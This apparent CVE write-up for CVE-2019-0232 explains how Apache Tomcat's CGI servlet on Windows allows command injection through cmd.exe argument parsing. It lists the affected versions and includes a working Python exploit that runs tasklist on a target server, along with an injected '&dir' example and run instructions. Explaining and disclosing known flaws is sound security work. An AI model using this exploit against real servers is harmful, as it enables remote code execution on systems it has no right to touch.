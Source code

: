 <div align="center"><h1>CVE-2019-0232 REPORT</h1></div>

## About the vulnerability

Apache Tomcat's CGI servlet, on Windows, for the below versions, is vulnerable to RCE due to a bug in how JRE passes arguments to Windows cmd.

**On versions:** Apache Tomcat 7.0.0 to 7.0.93, 8.5.0 to 8.5.39 and 9.0.0.M1 to 9.0.17

**Pre-requisites:** CGI option enableCmdLineArguments enabled in web.xml for Apache Tomcat. This enables the CGI servlet feature. Atleast one batch file to be present in the cgi directory.

## Explanation

This vulnerability exploits the way JRE passes arguments to the Windows cmd which in turn is a feature only available in Windows cmd. Windows cmd.exe takes a string line as argument for all command line arguments to any program instead of tokenizing it into an array of strings. Any program (eg. abc.bat) run in cmd is run in a `cmd.exe` environment as `C:\Windows\system32\cmd.exe /c "abc.bat"`

Arguments passed to the batch file under `"`, its characters are copied to the new command line as it is ignoring all other meta characters until the next `"` is encountered. So a command like `abc.bat "&dir"` is translated to `C:\Windows\system32\cmd.exe /c "abc.bat "&dir""`

The metacharacter `&` in the above translation is read as a separator as cmd.exe thinks it is out of the scope of `"`. Hence, `dir` is executed after `abc.bat`. After `&` any malicious code can be injected and executed. The regex pattern accepted by JRE includes such separators like `&` and hence the above vulnerability is triggered and RCE can be obtained.

## Exploit

```
#!/usr/bin/python
import requests
from urllib.parse import quote
def rce(url): #applies get request for the crafter url
    r = requests.get(url)
    print(r.content.decode("utf-8"))

targetURL = input('enter target url : ') # e.g. '192.168.43.249:8080/cgi-bin/auxiliary.bat'

url = 'http://' + targetURL + '?&'
payload_cmd = 'C:/Windows/System32/tasklist'
rce(url+quote(payload_cmd))
```
[Exploit on github](https://github.com/Milind712000/INTERIIT21_SAPTANG/blob/main/chall5/exploit_CVE-2019-0232.py)

This exploit was tested on Apache Tomcat 7.0.69 with JDK7 and allows RCE on the Apache Tomcat Server.

### How to Run

#### Installing a python virtual environment
```bash
$ python3 -m venv env

$ source env/bin/activate
```
#### Adding the python dependencies

```bash
$ pip3 install requests
```

#### Running the exploit
```bash
$ python3 exploit_CVE-2019-0232.py
```

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=eXD1Mxmacco)
